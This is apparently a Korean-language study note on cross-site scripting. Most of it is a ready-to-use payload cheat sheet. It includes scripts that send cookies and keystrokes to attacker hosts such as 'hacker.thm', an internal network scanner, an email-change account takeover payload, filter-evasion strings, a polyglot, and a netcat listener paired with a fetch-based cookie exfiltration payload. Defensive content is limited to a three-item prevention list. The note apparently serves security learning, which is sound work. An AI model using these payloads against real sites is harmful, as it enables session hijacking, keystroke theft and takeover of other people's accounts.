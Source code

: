 xss
#
`category`
- stored
- reflected

#
`Stored XSS`

#
`Reflected xss`

#
`DOM 기반 xss`

reflected xss를 사용하면 
```
<html>
    You searched for <em><script>...</script></em>
</html>
```
다음과 같이 주입되며 다른 자바스크립트의 실행에 영향을 주지 않는다.

DOM 기반 xss는
```
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```
다음과 같이 취약한 자바스크립트가 로드되거나 상호작용할 때 실행한다.

![image](https://blog.kakaocdn.net/dn/ceorJc/btrruzWbwlD/lKYNCRKs2K2SQa8ykL8yn0/img.png)

```
" onmouseover="alert('Hover over the image and inspect the image element')"
```
![image](https://blog.kakaocdn.net/dn/cPNKX4/btrrpTO99so/uwR7QB58kfJ5wT1J7pzUD0/img.png)

```
" onmouseover="document.body.style.backgroundColor='red'"
```
![image](https://blog.kakaocdn.net/dn/9C9GV/btrrpTuSA7g/haxFHW6xgJDcS6wmYd5WW0/img.png)
#
`xss를 사용한 ip, port scan`

`라우터의 웹 인터페이스가 192.168.0.1인지 확인`
```
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
```

`192.168.0.0 ~ 192.168.255의 내부 네트워크 scan`
```
<script>
 for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
 }
</script>
```
#
XSS Payload

`session 도용`
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
#
`xss keylogger`

```
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script>
```
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
#
`쿠키`
```
<script>alert(document.cookie)</script>
```
![image](https://blog.kakaocdn.net/dn/OX4LS/btrroXkem3o/Xpp5STh8o8xkCxkQx3oVvk/img.png)

```
<script> window.location='http://attacker/?cookie='+document.cookie </script>
```
이 스크립트는 사용자 브라우저를 다른 URL로 이동하게 한다. 아래 예시
```
<script>document.location='/log/'+document.cookie</script>
```
/logs 에서 쿠키를 획득하면 이를 사용하여 피해자를 가장할 수 있다. 

![image](https://blog.kakaocdn.net/dn/SFqTI/btrruBmaqNy/wPcpOVK2WEbLc4orLZmhY1/img.png)
#
`시스템 ip주소`
```
<script>alert(window.location.hostname)</script>
```
![image](https://blog.kakaocdn.net/dn/bLDEz4/btrrxXJiKdK/TlxXoX97J320x95KUflGG0/img.png)

#
`사이트 바꾸기`
```
<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>
```
![image](https://blog.kakaocdn.net/dn/DdAi4/btrrqmQ7SKI/qTXGgwGEIzg0R2GdAYztS0/img.png)


#
`비지니스 로직`

user email 변경
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
#
Filter Evasion

`<script>를 제거하는 필터를 무시`
```
<img src=x onerror=alert('Hello');>
```
```
<sscriptcript>alert('THM');</sscriptcript>
```
`alert 필터`
```
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
```
```
<img src="blah" onerror=confirm("Hello") />
```
`Hello 단어 필터`
```
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>
```
```
<img src="blah" onerror=alert("HHelloello") />
```


- word "Hello"
- script
- onerror
- onsubmit
- onload
- onmouseover
- onfocus
- onmouseout
- onkeypress
- onchange
```
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>
```

`아래와 같은 상황에서 닫아주고 payload`
```
"><script>alert('THM');</script>
</textarea><script>alert('THM');</script>
';alert('THM');//
```
![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)
![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/c3d0d38d23fab0608bc3ca8b9441974c.png)
![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/17c6b9717f16af910557438017be9c53.png)

`Polyglots`
XSS 다중 언어는 속성, 태그 및 우회 필터를 모두 하나로 이스케이프할 수 있는 텍스트 문자열

'<'를 escape할 때

![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8856b113fd514db704157837a6e6aeb4.png)
![image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3260719921aba8ad6eb8d887094fcb87.png)

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
#
`예방`
- escape
- 입력 유효성
- 데이터 삭제
#
`exploit`

```
nc -lvnp 1234
```
또는
```
python3 -m http.server
```
```
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```
- btoa() : base64로 인코딩
- document.cookie : 웹의 피해자 쿠키에 접근

![image](https://blog.kakaocdn.net/dn/1QRjw/btrrsnWj31t/5pnumPWkuiSZLfalazfPD0/img.png)

